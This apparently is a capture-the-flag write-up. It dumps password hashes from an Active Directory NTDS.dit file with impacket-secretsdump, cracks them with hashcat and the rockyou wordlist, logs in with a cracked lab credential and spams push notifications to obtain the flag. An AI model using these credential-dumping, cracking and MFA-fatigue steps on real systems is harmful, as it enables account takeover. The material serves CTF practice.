 # Solution
- Hit the start button and download the NTDS.zip file.
- Unzip the file.
```bash
unzip NTDS.zip
```
- secretsdump from Impacket can extract password hashes from NTDS.dit file. Run the following command to get the password hashes and save them in the file "secDumpOut".
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL > secDumpOut
```

![Alt text](image.png)

- Copy the nthash passwords of all the huntress.local account in a file called "hashes".
- Run hashcat to crack the hashes.
```bash
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt -O
```
- Show the cracked hashes.
```bash
hashcat -m 1000 --show hashes
```

![Alt text](image-1.png)

- Browse the link challenge and login as "huntressctf\JILLIAN_DOTSON" with the password "katlyn99".

![Alt text](image-2.png)

- Spam the button "Send Push Notification" to get the flag.

![Alt text](image-3.png)
